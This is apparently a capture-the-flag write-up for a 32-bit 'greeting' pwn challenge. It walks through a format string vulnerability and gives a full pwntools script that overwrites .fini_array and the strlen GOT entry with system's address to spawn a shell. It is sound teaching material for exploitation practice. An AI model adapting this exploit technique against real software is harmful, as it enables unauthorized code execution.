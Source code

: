 # greeting (pwn)

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/ca95958d-8835-4762-854a-aef9b10858e4)  

Let's run the program  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/567f916d-cae4-46cb-b080-11b927493318)  
We can see that there is a format string vulnerability.  

Let's take a loot at the binary in ghidra.  
```c
void main(void)

{
  int iVar1;
  int in_GS_OFFSET;
  char local_94 [64];
  undefined input_buf [64];
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  printf("Please tell me your name... ");
  iVar1 = getnline(input_buf,0x40);
  if (iVar1 == 0) {
    puts("Don\'t ignore me ;( ");
  }
  else {
    sprintf(local_94,"Nice to meet you, %s :)\n",input_buf);
    printf(local_94);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

void getnline(char *param_1,int param_2)

{
  char *pcVar1;
  
  fgets(param_1,param_2,stdin);
  pcVar1 = strchr(param_1,10);
  if (pcVar1 != (char *)0x0) {
    *pcVar1 = '\0';
  }
  strlen(param_1);
  return;
}
```
We can see there is no win function, and also the flag is not in the stack, so we need to pop a shell somehow.  
From the format string vulnerability, we have an arbitrary write, and also `partial RELRO` is enabled.  
We want to overwrite something such that we call `system()`.  
Sadly the only function called after the vulnerable `printf` is `__stack_chk_fail()`, but we can't trigger it.  
However, Linux has a `.fini` routine, where every function in `.fini_array` is called. However we can't give arguments to those functions so we can't use them for `system('/bin/sh')`.  
A perferct candidate is `strlen`, because it will execute with our input as an argument, so we can write the `.fini_array` to redirect execution to `getnline` and write the `got` entry of `strlen` with `system`.  

Usually I would do this using the automated module from `pwntools`. However, there is a length requirement (64 bytes) that we have to satisfy, and the tool was failing to satisfy it, so I had to prepare the payload manually.  

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template greeting
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'greeting')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    No RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

io = start()

fini_array = 0x08049934
ret = 0x08048614
system = 0x8048490
strlen_got = 0x8049a54

log.info('systemplt @ '+hex(system))

#xxAAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
offset = 12
numbwritten = 20 + 4*4

payload = b'xx'

payload += p32(fini_array) # %12$n
payload += p32(fini_array + 2) # %13$n
payload += p32(strlen_got) # %14$n
payload += p32(strlen_got + 2) # %15$n

# write to lower bits of fini_array
remaining = 0x8614 - 36
fmt = bytes(f'%{remaining}x' , 'ascii')

payload += fmt
payload += b'%12$n' #currently at 8614

# write to lower bits of strlen GOT entry
remaining = 0x8490 - 0x8614
remaining = 0xffff + remaining + 1
fmt = bytes(f'%{remaining}x' , 'ascii')

payload += fmt
payload += b'%14$n' #currently at 8490

# write upper bits of both fini_array and strlen GOT entry
remaining = 0x804 - 0x8490
remaining = 0xffff + remaining + 1
fmt = bytes(f'%{remaining}x' , 'ascii')

payload += fmt
payload += b'%13$n'
payload += b'%15$n'

log.info(len(payload))
log.info(payload)

io.sendline(payload)
io.sendline(b'/bin/sh')

io.clean()
io.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/ab022d74-f79c-40d1-a9fc-463eea5062ed)


